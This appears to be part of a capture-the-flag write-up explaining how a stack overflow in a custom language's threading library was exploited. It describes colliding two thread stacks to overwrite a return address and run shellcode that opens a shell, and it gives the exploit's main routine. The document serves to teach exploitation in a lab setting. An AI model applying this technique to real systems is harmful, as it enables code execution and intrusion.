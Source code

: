 This stack overflow was the first bug I found while looking at the threading library. I don't think it's the intended bug, because it's not primarily a bug in the threading library. I think it's more of a bug in the compiler, as not checking for stack overflows is a reasonable thing to do in a memory-unsafe language like C++; pthreads allocates stacks in a very similar way.

Anyways, let's get to exploiting this bug.

## Exploiting a Stack Overflow

Because our goal is to overwrite a return address, it would be nice to get executable shellcode into the process. NX is disabled and we can get the address of a string by passing a reference to it to the `print` function, so we can simply allocate a string containing our shellcode.

Then we create two threads. The first thread is the victim, which recurses deep into a function (so that its stack is full of return addresses) and then blocks on a semaphore. The second thread will corrupt one of the victim's return addresses: it allocates a very large array on its stack (to trigger the stack overflow and collide the two stacks), overwrites a return address using a local variable, and finally unblocks the victim thread. The victim then returns from all of the nested function calls, eventually hitting the corrupted return address and executing our shellcode.

Using the shellcode, we can spawn a shell and read the flag: `CTF{This-challenge-was-very-hard}`

## Exploit Code

Finally, the SIMP code I used to exploit the server:

```c
// used to signal that pwn thread is ready
semaphore sem_pwn = 0;
// used to signal that victim thread is ready
semaphore sem_victim = 0;
// used to block indefinitely
semaphore sem_block = 0;

// address of shellcode
uint64 sc_addr = 0;
// reference to shellcode
ref<string> sc_ref;

// block thread indefinitely
def void block() {
    down(sem_block);
}

// entrypoint of program
def int32 main() {
    shellcode();

    // spray a couple of threads, to close holes in mmap() memory
    int32 i = 0;
    while (i < 8) {
        make_thread(block);
        i = i + 1;
    }
    usleep(100000);

    // spawn pwn and victim threads
    thread t_pwn = make_thread(pwn);
    thread t_victim = make_thread(victim, 100);

    // threads do all the work, so block
    block()

    return 0;
}
```
